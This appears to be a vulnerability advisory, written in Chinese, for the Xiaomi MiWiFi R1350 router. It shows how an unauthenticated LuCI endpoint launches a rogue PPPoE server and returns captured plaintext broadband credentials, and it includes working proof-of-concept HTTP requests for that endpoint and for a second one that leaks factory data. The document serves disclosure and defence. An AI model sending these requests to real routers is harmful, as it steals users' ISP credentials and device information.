





# 小米 MiWiFi R1350 路由器

- 厂商：小米（Xiaomi）
- 产品：小米 AIoT 路由器 R1350（AC1200）
- 固件版本：1.0.31（miwifi_r1350_firmware_7449d_1.0.31.bin，QSDK / OpenWrt，MIPS32 大端）
- 漏洞类型：未授权 PPPoE 凭据捕获 / 敏感信息泄露（CWE-200 / CWE-319）

## 概述

小米 MiWiFi R1350（固件 1.0.31）暴露了一个**无需认证**的诊断接口（标志位 `0x09` = noauth + noinit），该接口会在 WAN/LAN 接口上启动一个**恶意 PPPoE 服务器**，并将捕获到的**明文 PPPoE 拨号凭据**通过 HTTP 响应返回：

```
GET /cgi-bin/luci/api/xqnetwork/pppoe_catch HTTP/1.1
```

## 漏洞详情

`/usr/lib/lua/luci/controller/api/xqnetwork.lua` 以标志位 `0x09` 注册了 `pppoe_catch`（约第 112 行），并调用 `XQLanWanUtil.pppoeCatch(50)`。



`/usr/lib/lua/xiaoqiang/util/XQLanWanUtil.lua:1352`：



```lua
local pppoe = LuciUtil.execl("/usr/sbin/pppoe-catch start "..tostring(timeout))
...
if LuciUtil.trim(value):match("PPPoE:") then
    local pppoename    = pppoe[index + 1]   -- 捕获到的 PAP 用户名
    local pppoepasswd  = pppoe[index + 2]   -- 捕获到的 PAP 密码（明文）
```



`/usr/sbin/pppoe-catch`（shell 脚本）执行：



```sh
pppoe-server -I <wan_ifname> -I br-lan -k -S xiaomi
# 最长等待 <timeout> 秒，然后：
[ -f $PAP_FILE ] && echo "Service-Name: $(cat /tmp/state/pppoe-service-name)"
echo "PPPoE:"; echo "$(cat /tmp/state/pppoe-server-pap)"   # 明文 PAP 凭据
```

桥接 LAN 上的任意 PPPoE 客户端（例如自动重拨“宽带连接”的 PC、配置错误的二级路由器）只要在窗口期内发出 PADI，就会使用 **PAP（明文）** 向这个恶意服务器认证；凭据随即落入 `/tmp/state/pppoe-server-pap`，并被原样返回给未授权的 HTTP 调用者。

`bdataInfo()`（`XQSysUtil.lua:1056`）同样在未授权情况下执行 `bdata show` 并返回出厂分区的所有键值（序列号、国家码、出厂模式标志）；`fac_info` 则返回安全相关的设备状态（telnet/ssh/uart 开启标志、出厂模式、SSID）。

## 漏洞证明（PoC）

```http
GET /cgi-bin/luci/api/xqnetwork/pppoe_catch HTTP/1.1
Host: 192.168.31.1

```

响应（在 50 秒窗口期内捕获到 PAP 交换时）：

```json
{"passwd":"TxPppoe#2024","service":"CT-Beijing-01","name":"0755_op_po","code":0}
```

```http
GET /cgi-bin/luci/api/xqsystem/bdata HTTP/1.1
Host: 192.168.31.1

```

```json
{" CountryCode":"CN","wl0_ssid":"Xiaomi_POC_5G","SN":"H2D0901907235","factory":"RTYPE RCC"}
```

## 影响

未授权的 LAN 侧攻击者可以把路由器本身变成一台凭据收割用的 PPPoE 服务器，从而窃取用户的 **ISP 宽带用户名和密码**（PAP 明文）。宽带凭据可在 ISP 侧被复用（盗用宽带套餐，视运营商而定还可能涉及语音/邮箱访问）。此外，恶意服务器动作在捕获窗口期内还会干扰正常的 WAN 连接。

## 复现结果



已在 qemu-mips + chroot 模拟的固件环境中（原始 nginx → fcgi-cgi → LuCI 栈，且存在真实的 `pppoe-server` 二进制）动态验证。在存在已捕获 PAP 状态文件的情况下，该接口如上图所示在 HTTP 响应中返回了明文凭据；`bdata` 和 `fac_info` 的响应同样无需任何会话令牌即可获取。
